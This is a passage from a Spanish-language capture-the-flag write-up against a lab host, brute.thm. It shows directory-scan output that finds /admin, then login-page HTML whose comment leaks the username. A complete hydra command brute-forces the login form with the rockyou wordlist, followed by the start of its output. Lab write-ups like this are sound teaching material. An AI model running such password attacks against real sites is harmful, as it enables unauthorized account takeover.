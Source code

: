```bash
/.htpasswd.php        (Status: 403) [Size: 274]
/admin                (Status: 301) [Size: 306] [--> http://brute.thm/admin/]
Progress: 2239 / 14205 (15.76%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 2256 / 14205 (15.88%)
===============================================================
Finished
===============================================================

```
Ingresamos a la pagina web de la ruta oculta y nos encontramos un login
![](Pasted%20image%2020250414110730.png)
**Análisis de código fuente del HTML**:
- Comentario revela nombre de usuario: `<!-- Hey john, if you do not remember, the username is admin -->`
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="styles.css">
    <title>Admin Login Page</title>
</head>
<body>
    <div class="main">
        <form action="" method="POST">
            <h1>LOGIN</h1>

            
            <p>Username or password invalid</p>

            
            <label>USERNAME</label>
            <input type="text" name="user">

            <label>PASSWORD</label>
            <input type="password" name="pass">

            <button type="submit">LOGIN</button>
        </form>
    </div>

    <!-- Hey john, if you do not remember, the username is admin -->
</body>
</html>

```
## 4. Explotación
**Técnica**: Ataque de fuerza bruta con `hydra` al formulario `/admin`
```bash
hydra -l admin -P rockyou.txt brute.thm http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"    
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-14 11:48:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://brute.thm:80/admin/:user=^USER^&pass=^PASS^:Username or password invalid
```
